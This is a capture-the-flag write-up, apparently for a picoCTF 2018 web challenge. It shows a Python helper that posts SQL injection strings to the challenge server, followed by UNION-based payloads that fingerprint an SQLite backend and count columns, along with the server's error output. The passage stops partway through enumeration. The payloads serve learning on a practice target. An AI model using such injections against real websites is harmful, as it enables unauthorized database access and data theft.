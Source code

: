 Here's some Python code to send a SQL injection to the site and return `True` or `False`:

```
import requests
url = "http://2018shell.picoctf.com:2644/answer2.php"

# send post request and return True or False based on page content
def submit_query(answer:str,
				debug:int=0) -> bool:
	data = {'answer':answer, 'debug': str(debug)}
	r = requests.post(url=url, data=data)
	print(r.text)
	if r.text.find("Wrong") != -1:
		return False
	else:
		return True
```

First, I identified that I was working with an SQLite3 database by attempting to do some fingerprinting and getting an error code back:

`print(submit_query("42' OR '1' = '1' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables --"))`

results in

```
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1' = '1' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables --'
</pre><br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, no such table: information_schema.tables in <b>/problems/a-simple-question_4_66cdb0641702e04c08c3830fa64316d2/webroot/answer2.php</b> on line <b>15</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on boolean in /problems/a-simple-question_4_66cdb0641702e04c08c3830fa64316d2/webroot/answer2.php:17
Stack trace:
#0 {main}
  thrown in <b>/problems/a-simple-question_4_66cdb0641702e04c08c3830fa64316d2/webroot/answer2.php</b> on line <b>17</b><br />
```

To confirm that it's SQLite:
```
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' UNION SELECT sqlite_version()''
</pre><h1>You are so close.</h1>
True
```

Next, I determined the number of columns in the `answers` table:

`print(submit_query("42' OR '1'='1' UNION SELECT NULL, NULL'"))`

resulted in

```
SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns
```
